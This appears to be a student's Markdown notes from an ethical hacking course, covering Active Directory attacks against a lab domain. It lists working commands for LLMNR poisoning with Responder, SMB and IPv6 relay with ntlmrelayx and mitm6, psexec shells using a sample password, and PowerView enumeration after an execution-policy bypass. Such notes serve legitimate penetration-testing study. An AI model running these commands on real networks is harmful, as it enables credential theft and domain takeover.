


# Practical Ethical Hacking

## Subnetting

[IP Adress Guild site](https://www.ipaddressguide.com/)

[Subnetting sheet](https://drive.google.com/file/d/1ETKH31-E7G-7ntEOlWGZcDZWuukmeHFe/view?usp=sharing)

## Active Directory

### Attach

#### [Five way to attack AD](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

#### LLMNR Poisoning


Tool: [Responder](https://github.com/SpiderLabs/Responder) Capture the NTLMv2 hases with Responder on eth0.

```text
responder -I eth0 -rdwv
```

Crack the obtained hash using \#Hashcat or \#john

#### SMB Relay attack

Instead of cracking the hashes gathered from responder, We can repay those hashes to machines and potentially gain access.

Requirements:

* SMB signing must be disabled on the target
* Relayed user credentials must be admin on machine



Run Responder,

```text
responder -I eth0 -rdwv
```

Tool: [NTLM Relay](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py)

```text
python ntlmrelayx.py -tf targets.txt -smb2support
```

Or

To get Interactive shell

```text
python ntlmrelayx.py -tf targets.txt -smb2support -i
```

Interactive mode will start the Interactive SMB on specific port. As soon as it start Interactive smb set the netcat on that port.

```text
nc 127.0.0.1 1100
```

Checkout more -e, -c etc options of ntlmrelayx

1. Gaining Shell Access

   Prerequisite to get shell, Need smb username/password and user should be local admin

There are multiple ways we have to try, some might not work,

* Use metasploit with windows/smb/psexec
* Use psexec.py _Noicey_

  ```text
  psexec.py marvel.local/fcastel:password1@192.168.0.141
  ```

* psexec\_psh \(Metasploit\)
* smbexec.py
* wmiexec.py
* IPv6 Attack If Ipv6 enabled this attack creates DNS machine for IPv6 addresses. We can use victim machine to login to DC, when victim restart the machine. Once we get victim authenticated we can relay those credentials to LDAP.

#### [mitm6](https://github.com/fox-it/mitm6)

```text
mitm6 -d marvel.local
```

also need to set relay attack

```text
ntlmrelayx.py -6 -t ldaps://192.168.57.140 -wh fakewpad.marvel.local -l lootme
```

Resources: 

* [https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
* [https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

### **Attacking AD Strategies** 



### Post Compromise Enumeration

####  ****[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

To run PowerView on Victim machine,

```text
powershell -ep bypass

. .\PowerView.ps1
```

_Nothing will showup but it will load the PowerView_

Common Commands:

* Get-NetDomainController 
* Get-DomainPolicy
* \(Get-DomainPolicy\)."system access"
* Get-NetUser
* Get-NetUser \| select cn
* Get-UserProperty
* Get-UserProperty -Properties pwd
* Get-UserProperty -Properties logoncount
* Get-NetComputer
* Get-NetComputer -FullData
* Get-NetGroupMember -GroupName "Domain Admin"
* Invoke-ShareFinder
* Get-NetGPO
* Get-NetGPO \| select displayname, whenchanged
* [Powerview Tricks](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

#### Bloodhound

